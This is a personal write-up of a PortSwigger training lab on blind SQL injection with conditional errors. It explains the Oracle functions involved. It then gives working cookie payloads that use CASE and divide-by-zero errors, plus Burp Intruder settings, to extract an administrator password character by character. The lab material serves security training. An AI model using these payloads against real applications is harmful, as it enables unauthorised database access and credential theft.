






# Write-up: Blind SQL injection with conditional errors   
  
Lab-link: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors  
Difficulty: Practitioner   
Status: Solved  

## Lab description  
 

## Objectives 
Retrieve the password of `administrator` user and log into their account  

## Background  
### Blind SQL injection  
Blind SQL injection occurs when an application is vulnerable to SQL injection, but the results of the injected query are not directly displayed in the response. Instead, information must be inferred from differences in the application's behavior.   
In this lab, an SQL error is intentionally triggered when a specified condition is true. The resulting `500 Internal Server Error` can therefore be used as a Boolean indicator.

### `LENGTH()`  
`LENGTH()` returns the number of characters in a string.  

### `SUBSTR()`  
With Oracle database, `SUBSTR()` is used to extract part of a string  
`SUBSTR()` extracts a specific part of a string using the following syntax:  
SUBSTR(string, start, length)    
For example: `SUBSTR(password,1,1)`  
`password`: the string to extract characters from.  
`1` (second parameter): the starting position of the character to extract. Positions start from 1.  
`1` (third parameter): the number of characters to extract.   

### [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
#### String concatenation on Oracle  
Oracle uses `||` to concatenate strings  
**For example:**
`'abc' || 'def'` produces: `'abcdef'`
#### Using `CASE`
`CASE` can execute different expressions depending on whether a condition is true or false. The general structure is:
```text
CASE WHEN condition THEN value1 ELSE value2 END
```
In this lab, `CASE` is used to trigger a database error only when the specified condition is true.

### Oracle-specific note
On **Oracle** databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.  
There is a built-in table on **Oracle** called `dual` which you can use for this purpose.  
**Example query:** 
```text
UNION SELECT 'abc' FROM dual
```

## Steps   
### 1. Establish a baseline  
Firstly, I chose the **Pets** category  
In Burp Suite, I intercepted this request and sent it to Repeater  
   
The important parameter in this lab is the `trackingId` cookie

### 2. Confirm the parameter is vulnerable to blind SQL injection   
To determine whether `trackingId` could be manipulated, I injected 2 payloads:  
`'||(SELECT '' FROM dual)||'` This returned `200 OK`. Now, I changed `dual` to an invalid table name:  
`'||(SELECT '' FROM dualhdb)||'` This resulted in `Internal Server Error`  
The different responses confirmed that the injected SQL was being evaluated by the database.

### 3. Confirm that `users` table exists  
To confirm that the users table exists, I injected:
```text
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```
The response was `200 OK`, indicating that the users table exists.  
`ROWNUM = 1` is used to make sure that the subquery returns at most one row.  

### 4. Test conditional errors  
I used a **CASE** statement to trigger a database error only when a specific condition is true.  
First, I tested a true condition:  
```text
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
This returned `Internal Server Error`
Then, I changed the condition to:   
```text
'||(SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```
This returned `200 OK`    
This confirms that I could use the error response as a true/false indicator:  
`500 Internal Server Error` -> condition is true  
`200 OK` -> condition is false   

### 5. Confirm that `administrator` user exists  
I injected:  
```text
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
I got `500 Internal Server Error`, indicating that the administrator user exists  

### 6. Identify the password length  
Firstly, I tested: 
```text
'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
The response was `500 Internal Server Error`
```text
'||(SELECT CASE WHEN LENGTH(password)>30 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
This time, I got status `200 OK`   
Therefore, `1<the password length<=30`

Now, I sent the request to Intruder  
In the tab Burp Intruder, I selected the number used in `LENGTH(password)>§1§` as the payload position and clicked **Add §**  
I chose **Sniper attack** because there was only 1 payload position  
For the payload configuration:  
Payload type: `Numbers`  
From `1`  
To `30`  
Step `1`  
   
After starting attack, the response showed that the response got status `500` for values from `1` to `19`, while the response for `20` got status `200`  
This means: `LENGTH(password)=20`  
  

### 7. Retrieve the administrator password  
I used the following payload to test the first character of the password:     
```text
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
I marked the character position and the character as two payload positions: `SUBSTR(password,§1§,1)='§a§'`  
I used **Cluster bomb attack** because there are two independent values to test:  
The first position represents the character position in the password.  
The second position represents the character being tested.  
For the first payload position, I used:  
Payload type: `Numbers`  
From `1`  
To `20`  
Step `1`  
 
For the second payload position, I used Brute forcer to test possible characters.  
  
After starting the attack, I recorded the character that got status `500` for each password position.  
  
The administrator password was: `3rir5yp3sqj6nfrohoh0`  
And the lab was solved:  
  
